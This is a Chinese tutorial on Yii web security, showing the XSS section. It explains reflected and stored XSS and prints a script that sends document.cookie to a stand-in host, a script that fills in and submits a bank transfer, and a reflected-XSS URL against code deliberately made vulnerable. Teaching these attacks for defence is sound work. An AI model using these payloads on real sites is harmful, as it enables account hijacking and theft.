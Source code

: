```yaml
---
title: Yii-安全篇
date: 2017-07-02 11:56:02
tags:
	- yii安全
	- 安全
	- xss
	- csrf
	- sql注入
	- 文件上传漏洞
categories:
	- 安全
---
```

## 前言  
对于如何攻研究的不深，只说说大概原理，让你知道怎么防  

## xss攻击  
原理：后端有时会将接收用户的数据展示在前端页面，这时候如果后端没有做处理，那么提交的前端代码将会直接渲染到前端，这部分代码就具有攻击性  

实现xss攻击要想方设法把js注入到页面中，可以通过url(反射性) 或者 提交数据(提交的数据会保存在后台，显示在页面)
**跨站脚本攻击(Cross Site Scripting)**  
将js代码插入到给用户使用的页面中，从而对用户进行攻击  

**盗取用户账号(使用cookie登陆)**  
将下面代码出入页面，当用户访问这个页面的时候将会把cookie发送给自己，在cookie中寻找需要的登陆cookie
```js
<script>
var cookie = document.cookie;
window.location.href = 'http://127.0.0.1/index.php?cookie = '+cookie
</script>
```
将cookie设置成httponly，js将无法读取这条cookie  

**非法转账**  

自动转账的代码逻辑，自动填写并确认跳转
```js
document.getElementById('ipt-search-key').value = 'ding@163.com';//自动填写转账的账户
document.getElementById('amount').value = '100';//自动填写转账的金额
document.getElementById('reason').value = '劫富济贫';//自动填写原因
document.getElementsByClassName('ui-button-text')[0].click();//自动跳转
```
将javascript注入到其他页面，但是需要注入到用户使用的转账的页面，这个是比较难的，需要使用反射性xxs

### 反射性xss
原理：将js代码赋值给url需要get传参的key，后台获取到这个key又会原原本本的将这个key输出到前端页面  
选好需要攻击的网站页面，url需要有get传参的内容，确定后台获取到get传参的key值会将其原原本本的输出到前端页面，这样就可以进行攻击了  

将js代码赋值给url的get需要传参的key，例如  
```
//url
www.basic.com/index.php?r=article/post&name=abc<script>alert('hello world')</script>
//but，浏览器会智能过滤掉js标签  
//可以通过后端设置响应头让其不过滤
\YII:$app->response->headers->add('x-xss-Protection', '0');
//后端的逻辑是直接将获取到的name直接到页面
echo \YII:$app->request->get('name');
```
输出的内容可能被编码转换成字符串,导致无法执行
例如：
```
"abc%3Cscript%3Ealert('hello world')%3C/script%3E"
//%3Cscript%3E即<script>
```